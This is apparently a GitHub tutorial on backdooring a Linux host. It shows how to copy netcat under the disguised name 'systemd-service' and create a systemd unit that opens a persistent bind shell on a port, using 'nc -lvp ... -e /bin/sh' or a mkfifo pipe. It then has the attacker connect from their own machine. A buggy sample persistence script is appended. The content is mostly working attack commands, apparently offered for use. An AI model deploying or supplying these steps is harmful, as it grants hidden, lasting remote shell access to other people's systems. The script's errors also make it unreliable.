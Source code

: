 # Systemd netcat bind shell

involves creating a custom service that will also persist across reboots, but this one will be with Systemd, which has quickly become part of most Linux distributions as a replacement for the UNIX System V init system used to launch services and processes and system startup.

With a bind shell, the attacker directly connects to the bind port and is greeted with a shell.

So, in regards to the difference between the two, we’re initiating a connection to the target for a shell, rather than the target connecting back to our attacker system, as was with the xinetd backdoor.

#### The steps to create a Systemd Netcat Bind Shell are as follows:

Step 1. On the target system, we’re again going to copy the /bin/nc executable, but this time to the /lib/systemd directory, and we’ll call it “systemd-service”:

```
cp /bin/nc /lib/systemd/systemd-service
```

Step 2. Still, on the target, we’re going to create a file called /lib/systemd/system/systemd.service with the following contents:

```
[Unit]
Description = Systemd Service
After = network.target
[Service]
ExecStart = /lib/systemd/systemd-service -lvp 56825 -e /bin/sh
[Install]
WantedBy = multi-user.target
```

or this one with freeBSD version of netcat:

```
[Unit]
Description = Systemd Service
After = network.target
[Service]
ExecStart = mkfifo foo && nc -lk 2600 0<foo | /bin/bash 1>foo
[Install]
WantedBy = multi-user.target
```

The above systemd service configuration file will create bind shell on port 56825 TCP.

Step 3. Enable our new Systemd Netcat Bind Shell service, and start our Systemd Netcat Bind Shell Service:

```
systemctl enable systemd.service
systemctl start systemd.service
```

Confirm that our port for our custom service is listening on the target:

```
netstat –auntp |grep 56825
```

Step 5. From our attacker machine, we should now be able to connect to port 56825 using netcat and get a shell:

```
nc <target_IP> 56825
```

This service will persist on reboots and will be listed as “systemd-service” if listing processes.

## Sample Script

```
#!/bin/bash

if [ $1 -z ]
        then
                echo "NOTE file should be in home directory"
                echo "./rc_local_persistence.sh  <filename> "
                exit 1
fi

HOME= $HOME

echo "[+] Creating service file for c.local.service ..."

echo "[+] Checking for .local.service in systemd..."
echo "[+] Creating .local.service file."
sudo touch /etc/systemd/system/$1.service 
printf "[Unit]\n Description=$1 Compatibility\n\n[Service]\n ExecStart=$HOME/$1\n TimeoutSec=0\n RemainAfterExit=yes\n Restart=always\n\n[Install]\n WantedBy=multi.user.target\n" | sudo tee /etc/systemd/system/c.sh.service

echo "[+] Enabling the service in systemctl..."
sudo systemctl enable $1.service
sleep 0.2

echo "[+] Running the service..."
sudo systemctl start $1

sudo systemctl status $1
```
